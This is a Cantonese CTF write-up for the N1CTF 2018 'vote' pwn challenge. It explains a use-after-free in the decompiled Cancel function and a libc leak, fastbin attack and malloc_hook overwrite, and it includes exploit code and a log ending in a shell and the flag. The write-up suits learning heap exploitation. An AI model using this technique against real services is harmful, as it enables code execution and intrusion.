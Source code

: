# vote 250(pwn)

題目:

>hk node: nc 47.90.103.10 6000
>
>cn node: nc 47.97.190.1 6000
>
>(Two challenge servers are identical, use either of them.)
>
>[Download](b8a4590d-9fee-4a34-8396-d63adac62a0d.zip)


menu:
```
0: Create
1: Show
2: Vote
3: Result
4: Cancel
5: Exit
Action: 
```

呢條係經典嘅 use-after-free 題目

Create 嘅 code:

```C++
void sub_400D2C()
{
...........
for ( i = 0; i <= 15; ++i )
  {
    if ( !*(&ptr + i) )
    {
      sub_400C52(4199328LL);
      v2 = sub_400C90(4199328LL);
      if ( v2 > 0 && v2 <= 4096 )
      {
        v0 = malloc(v2 + 16);
        *(_QWORD *)v0 = 0LL;
..............
}
```

Cancel 嘅 code:

```C++
void sub_40109D()
{
  char *v0; // rsi@8
  int v1; // [sp+Ch] [bp-4h]@1

  sub_400C52("Please enter the index: ");
  v1 = sub_400C90("Please enter the index: ");
  if ( v1 >= 0 && v1 <= 15 && *(&ptr + v1) )
  {
    if ( --qword_602180[v1] == --*(_QWORD *)*(&ptr + v1) )
    {
      if ( qword_602180[v1] < 0 )
        free(*(&ptr + v1));
    }
    else if ( qword_602180[v1] < 0 )
    {
      v0 = (char *)*(&ptr + dword_602160) + 16;
      printf("%s", v0);
      fflush(stdout);
      sub_400C00(" has freed", v0);
      free(*(&ptr + v1));
      *(&ptr + v1) = 0LL;
    }
  }
}
```

個bug就係free 之後冇清返ptr array 相應entry做0,引致UAF

有一個注意位就係,如果我request 0x20 name size, 實際會return 0x40 嘅object(冇睇清楚ida code嘅後果.........) 

之後就係基本套路 leak libc-> fastbin attack -> get shell


不過由於冇得直接edit, 所以有好多error chk 要bypass .....


當leak完 libc, triger consolidation之後, malloc 一個大少少嘅chunk 覆蓋晒之前個d chunk 嘅address

之後再寫假嘅meta data 去上一手memory address 相應嘅位置 (error chk bypass eg 前後位size 要match  )

再free 返chunk 0 防止再malloc 個陣triger heap inside freed heap error 



之後malloc一個0x50(0x70) 拎左最頂塊chunk,再malloc 一個0x50(0x70) fastbin 就可以有arbitary writing...

```python
create("qqqq",0x50)
create("A"*3+p64(rce)*4,0x50)
print "[+]get shell :)"
r.sendline("0")
sleep(1)
#triger one gadget
r.sendline("4000")
r.sendline("$0")
r.sendline("ls -al")
r.interactive()
```

Contest 個陣唔知點解local libc 會有size error, 於是加左個for loop 令個malloc_hook layout valid返...

可能之前打錯左size 掛??



```python
#just to make the structure around main_arena "align"
#to bypass the malloc checking
#for i in range(1,11):
#    create("QQQQ",0x10*i)

````

# Solution


solution: [solve.py](solve.py)

```
# [*] '/root/Desktop/CTF_Game/n1ctf_2018/vote/libc-2.23.so'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Paused (press any to continue)
# 139870119717752

# 0x7f360ccceb78
# leaked libc =0x7f360c90a000
# malloc_hook = 0x7f360ccceb10
# one = 0x7f360c9fa274
# [+]get shell :)
# [*] Switching to interactive mode
# Please enter the name's size: total 36
# dr-xr-xr-x 2 pwn  pwn   4096 Mar 10 18:38 .
# drwxr-xr-x 3 root root  4096 Mar  8 15:28 ..
# -rw-r--r-- 1 pwn  pwn    220 Mar  8 15:28 .bash_logout
# -rw-r--r-- 1 pwn  pwn   3771 Mar  8 15:28 .bashrc
# -rw-r--r-- 1 pwn  pwn    655 Mar  8 15:28 .profile
# -rw-r--r-- 1 root root    26 Mar  9 11:12 flag
# -rwxr-xr-x 1 root root 10544 Mar  8 15:29 vote
# $ cat flag
# N1CTF{Pr1nTf_2333333333!}
# $  

```
